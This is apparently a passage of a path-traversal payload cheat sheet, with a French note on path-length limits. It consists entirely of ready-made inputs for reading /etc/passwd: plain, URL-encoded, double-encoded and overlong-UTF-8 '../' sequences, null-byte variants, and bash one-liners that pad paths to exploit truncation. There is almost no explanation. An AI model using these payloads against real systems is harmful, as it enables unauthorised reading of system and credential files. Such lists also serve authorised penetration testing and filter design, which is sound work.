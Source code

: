 ```
../../../../etc/passwd

%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
```

```
../../../../etc/passwd%00

%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64%25%30%30
```

### URL Double Encode

```
../etc/passwd

%252e%252e%252fetc%252fpasswd
```

```
../../../../etc/passwd

%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%34
```

### UTF-8 Encoding

```
%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

```
%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```


### PATH TRUNCATION

Strings limités à 4096 charactères

```bash
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
```

```bash
echo -n "non_existing_directory/../../../etc/passwd" && for i in {1..2048}; do echo -n "."; done
```

```bash
echo -n "non_existing_directory/../../../etc/passwd" && for i in {1..2048}; do echo -n "\."; done
```

```bash
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "../"; done
```

```bash
echo -n "non_existing_directory/" &&
for i in {1..2048}; do echo -n "../"; done &&
echo -n "../../../etc/passwd/"
```
